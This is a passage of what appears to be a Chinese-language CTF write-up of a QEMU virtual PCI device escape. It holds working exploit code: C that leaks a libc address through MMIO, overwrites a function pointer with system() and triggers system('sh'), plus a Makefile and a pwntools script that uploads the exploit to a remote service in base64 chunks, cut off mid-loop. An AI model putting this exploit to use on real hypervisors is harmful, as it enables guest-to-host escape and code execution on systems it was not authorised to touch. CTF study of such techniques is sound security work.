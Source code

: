 ```c

int main(){
    int mmio_fd = open("/sys/devices/pci0000:00/0000:00:03.0/resource0", O_RDWR|O_SYNC);
    if(mmio_fd < 0){
        puts("[-] open failed");
    }
    mmio_mem = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, mmio_fd, 0);
    if(mmio_mem == MAP_FAILED){
        puts("[-] mmio failed");
    }
    if(iopl(3)){
        puts("[-] pmio failed");
    }
    uint32_t key[4] = {0,0,0,0};
    pmio_write(4, 0);//fuck key
    pmio_write(8, 0x100);//fuck seek
    uint64_t rand_r_addr = mmio_read(24);//leak
    tea_encrypt(&rand_r_addr,key);
    printf("[+] rand_r ==> %#lx\n", rand_r_addr);
    uint64_t libc_base = rand_r_addr - rand_r_libc;
    printf("[+] libc_base ==> %#lx\n", libc_base);
    uint64_t system_addr = libc_base + system_libc;
    printf("[+] system ==> %#lx\n", system_addr);
    tea_decrypt(&system_addr,key);
    mmio_write(24, system_addr);//fuck rand_r
    pmio_write(28, 0x6873);//system("sh");
    return 0;
}
```

musl-gcc 编译减少体积，方便上传到远程

```makefile
exp:
	musl-gcc exp.c -static -o exp && strip exp
clean:
	rm exp
```

本地可以直接打包，远程就 base64 传上去再解

```python
#!/usr/bin/env python2
# encoding: utf-8

from pwn import *
import base64
import sys
import os

os.system('make clean')
os.system('make')
f = open("exp", "rb")
exp = f.read()
f.close()
print(len(exp))
step = 0x200

r = remote('0.0.0.0',5555)
r.recvuntil('#')
r.sendline('')

log.info('uploading...')
for i in range(0,len(exp)/step+1):
    b64_exp = base64.b64encode(exp[step*i:step*(i+1)])
```